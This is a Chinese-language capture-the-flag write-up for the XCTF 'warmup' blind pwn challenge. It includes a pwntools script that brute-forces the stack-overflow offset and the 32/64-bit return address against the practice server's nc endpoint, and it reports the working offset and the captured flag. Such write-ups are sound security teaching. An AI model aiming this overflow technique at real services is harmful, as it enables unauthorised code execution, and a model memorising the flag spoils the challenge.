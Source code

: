 # warmup

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=eafaad26-42f6-41b4-a06c-a924e04dd90e_2)

第一次见这种题，没有给程序，盲打，还挺好玩的。

题目只给了个nc地址连上去后就给了个地址，肯定是有用的。

- nc 61.147.171.105 50483
    > -Warm Up-
    <br>WOW:0x40060d

输入%p没有得到回复，不是格式化字符串。基础pwn还剩个栈溢出，就是不知道是32位还是64位，溢出的偏移是多少也不知道。那就写个脚本跑跑。

```python
from pwn import *
addr = 0x40060d
def send_payload(proc,i,j):
    payload=b'a'*i
    if j==0:
        payload+=p32(addr)
    else:
        payload+=p64(addr)
    proc.sendlineafter(">",payload)
for i in range(100):
    for j in range(2):
        try:
            proc=remote("61.147.171.105",50483)
            send_payload(proc,i,j)
            message=proc.recv()
            print(f'message:{message},i:{i},j:{j}')
            proc.interactive()
        except:
            proc.close()
```

由于在输入错误的payload时车程序不会有任何反应，直接给EOF，所以我们可以利用这点判断什么是成功的payload。recv方法在收到EOF时会报错，正好被我们的try捕捉。recvline，recvall这类的方法都不会报错，所以不能在这里使用。最后在i=72，j=1时拿到了flag。

- ### Flag
- > cyberpeace{507e87a5ba19f87a1c118be62ee35808}